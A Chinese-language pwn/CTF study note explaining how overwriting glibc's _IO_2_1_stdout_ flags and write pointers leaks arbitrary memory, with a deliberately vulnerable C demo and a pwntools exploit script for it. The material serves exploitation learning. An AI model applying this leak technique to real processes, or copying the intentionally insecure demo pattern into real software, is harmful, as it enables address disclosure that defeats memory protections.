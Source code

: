 # 通过_IO_2_1_stdout泄露任意地址.md

## 过程

1. 设置_flags = 0xFBAD1800
2. 设置_IO_write_base指向想要泄露的位置
3. 设置_IO_write_ptr指向泄露结束的地址

当然，我们通常直接覆盖`_IO_2_1_stdout`为 `p64(0xfbad1800) + p64(0) * 3 + b'\x00\x00'`

## demo

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main()
{
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    setbuf(stdin, NULL);

    char *libc_base = ((char *)&puts) - 0x80e50;
    char *IO_2_1_stdout = libc_base + 0x21b780;

    printf("%p", libc_base);

    read(0, IO_2_1_stdout, 4);        // _flags
    read(0, IO_2_1_stdout + 0x20, 8); // _IO_write_base
    // read(0, IO_2_1_stdout+0x28, 8); // _IO_write_ptr

    printf("HelloWorld!\n");
    printf("HelloWorld!\n");
    printf("HelloWorld!\n");

    return 0;
}
```

```python
from demo import *
context(arch='amd64', os='linux', log_level='debug')
p = process('./demo')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

libc.address = int(p.recv(14), 16)

p.send(p32(0xfbad1800)) # 设置flag
p.send(b'\x00\x00')     # 设置_IO_write_base的低两字节

p.interactive()
```